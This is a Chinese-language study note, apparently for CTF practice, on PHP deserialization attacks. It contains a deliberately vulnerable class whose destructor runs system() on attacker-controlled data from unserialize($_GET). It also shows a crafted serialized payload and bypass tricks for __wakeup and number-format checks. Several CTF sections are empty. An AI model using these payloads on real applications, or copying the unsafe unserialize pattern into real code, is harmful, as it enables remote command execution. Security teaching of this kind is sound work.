









# WEB攻防-PHP反序列化&POP链构造&魔术方法流程&漏洞触发条件&属性修改

## 反序列化简单例子

```
<?php
class B{
    public $cmd='ipconfig';
    public function __destruct(){             //destruct()当对象被销毁时会被自动调用
        system($this->cmd);
    }
}
//函数引用，无对象创建触发魔术方法
unserialize($_GET['x']);
```

创建新php文件，利用serialize反序列化操作

```
<?php
class B
{
    public $cmd = 'ipconfig';
    public function __destruct()
    {
        system($this->cmd);
    }
}
$pop= new B();
echo serialize($pop);
```

执行文件（结果）

O:1:"B":1:{s:3:"cmd";s:8:"ipconfig";}

```
?x=O:1:"B":1:{s:3:"cmd";s:8:"ipconfig";}
```



## ctf考题

### 1



因为需要放到cookie，所以需要url编码

==把需要改的写上去，不改的删掉==





### 2








### 3

替换`:数字`为`：+数字`



### 4__wakeup

**声明的属性数量 ≠ 实际给出的属性数量**（不一致)就会跳过

